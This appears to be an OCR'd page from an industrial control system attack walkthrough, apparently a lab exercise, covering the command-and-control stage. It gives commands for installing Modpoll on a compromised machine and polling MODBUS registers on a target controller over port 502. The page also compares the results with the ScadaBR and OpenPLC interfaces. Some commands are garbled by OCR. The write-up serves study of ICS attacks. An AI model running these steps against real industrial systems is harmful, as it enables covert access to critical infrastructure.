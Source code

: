 # Command and Control

#### **Blending in with Normal Network Activity Using MODBUS/TCP (Port 502)**

The attacker uses a commonly used port (MODBUS/TCP:502) to bypass firewalls and detection systems, blending in with normal network activity. (MODBUS or HTTP(S), OPC, RDP, telnet,...) \[T0885 - <https://attack.mitre.org/techniques/T0885/> ]

********The attacker uses the **MODBUS/TCP** protocol, which typically operates on port **502**, to establish Command and Control (C2) communication between the compromised machines. By utilizing this widely-used industrial protocol, the attacker avoids raising suspicion, as MODBUS traffic is considered normal within many industrial control system (ICS) environments.

1. **Installing Modpoll on Machine M2 (Attack Machine):**

- The attacker installs the **Modpoll** tool on the compromised M2 to interact with MODBUS devices in the network.

- Modpoll is a command-line tool for polling MODBUS data, allowing the attacker to **read and write** data from MODBUS registers on the target machines.

```
# step 1 install modpoll in M2

wget https\://www\.modbusdriver.com/downloads/modpoll.tgz_tar xzf modpoll.tgz

export PATH=modpoll/x86\_64-linux-gnu:$PATH

```

****![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXe68s9l88LiLzW58oAIbExkM1PYLvscOAAqFAvHHp6tOLt51MaLQ8FPIz7tMdvKEHOW4l0nL_VB9IUBwj8AA8V_T4d31CiCoXBRMqdYOjUH6Dbb-vHvfuF0mTgx-oDDinR1c7jWYZGhh5tQT27915pN327E?key=ZVE4yllmhIbKOidz4k1V_g)****

**Img 12:** Network scanning in M2, discovery of M3 network and 502 MODBUS TCP port.

2. **MODBUS Polling on M3 (System Controller) via MODBUS/TCP:**

- The attacker executes **Modpoll** to query the state of the system controllers on machine M3 using the MODBUS protocol over TCP (Port 502):

```
# step 1 checking machine/system controller statesmodpoll -m tcp -r 1 -c 4 -t 0 192.168.52.6 # the -c is the number of outputs you want to get, the response of this command can take some seconds to appear |

```


![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXdulCra-JfynzhNl3cQL84b5hF-KSM-R9Rpvw0YXXjbZuVnY0Np9DSqu0n3gC8_t2p-sqYn3tMN04iHupeVMoOjh9XNQGdUbqBrcqd6oQCJJQwKG3jJoZF3lP5YbpphLmiewSJlu9VdX0I4iT-2GBEla9-x?key=ZVE4yllmhIbKOidz4k1V_g)

**Img 13:** Response of MODBUS TCP port, controller states of systems in M3.

3. **Comparing Data with HMI Systems (ScadaBR and OpenPLC):**

- From the web interfaces of **ScadaBR** (http\://10.208.89.15:9090/ScadaBR/) and **OpenPLC** (http\://10.208.89.15:8080/monitoring), the attacker can see that they have the same information that authorized users would have about the machines' statuses.

- The attacker essentially mirrors what operators would see on their HMI (Human-Machine Interface), giving them full visibility into the operational state of the industrial control systems.

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXeLC8bPw3IoFnITDBK4Sn8iGF9yl1hOpoJymoFGglkc9cOz4h-MVLNfP4t2ucEE9GGSbH46LVc05i-2Jg_pMnI5B2Ud9WWvf1HRrbDj1ikRuQNAi8laqj1C9LUqMEDugh_zdkr_mUZtkWKhbYp5slwMt1g?key=ZVE4yllmhIbKOidz4k1V_g)

**Img 14:** OpenPLC (right) and ScadaBR HMI (left).
